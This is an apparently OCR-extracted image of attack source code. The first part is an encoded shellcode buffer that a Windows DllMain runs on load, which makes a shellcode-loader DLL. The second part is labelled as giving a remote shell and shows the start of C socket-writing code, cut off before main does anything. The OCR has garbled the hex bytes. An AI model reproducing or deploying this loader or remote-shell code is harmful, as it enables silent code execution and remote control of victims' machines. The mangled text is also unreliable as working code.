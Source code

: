 &quot;x21×98x42×03x51×0ex59×36x6fx8dxcax74xfax6ex45&quot;
&quot;x1dx97×67x4bx6fxc2xa6xebxe2×6dxc0×1axe7xaex0b&quot;
&quot;x40xc5xbex68×96xbbx8exe3×0fx6exb4×4ex25×14xe0&quot;
&quot;xd0xa4×5ex63xeaxb6xecx72×47xbbxf2×2dx24xcexa1&quot;
&quot;x5dx4fx3bx15xf7×43x09×8dx49×29xa6×4exf2×38xcc&quot;
&quot;x9cx3fx40×37x0dx9dxe6×85x77xb4×01xf8×66x3fx0a&quot;
&quot;x04×88x79×50xebx51xa7xf6×13x98×88xe5×92x8bx5d&quot;
&quot;xc4×69x69xdbx3ax19×03xf8xf5xdex75×17x75×1dxd3&quot;
&quot;x80×55xd3×72xcbxd5×04x7cx2dxbdxddx09xeex44×57&quot;
&quot;x5ax72×31xacxfbx9bxf9×5fx59xb0xfd&quot;;
BOOL WINAPI DllMain (
HANDLE hinstDLL,
DWORD fdwReason,
LPVOID lpvReserved)
{
int (*func)();
func = (int (*)()) buf;
(int)(*func)();
return 0;
}


--------------------------------------------------------------

THIS CODE SHOULD GIVE A REMOTE SHELL:

#include <errno.h>
#include <fcntl.h>
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>
 
int sendFull(int socketFd, char *data, int length) {
  int   result;
 
  while(length) {
    result=write(socketFd, data, length);
    if(result<=0) {
      if(errno==EAGAIN) continue;
      fprintf(stderr, "Write failed, result %d, error %d(%s)\n",
          result, errno, (char*)strerror(errno));
      return(-1);
    }
    data+=result;
    length-=result;
  }
  return(0);
}
 
int main(int argc, char **argv) {
  int   argPos;
 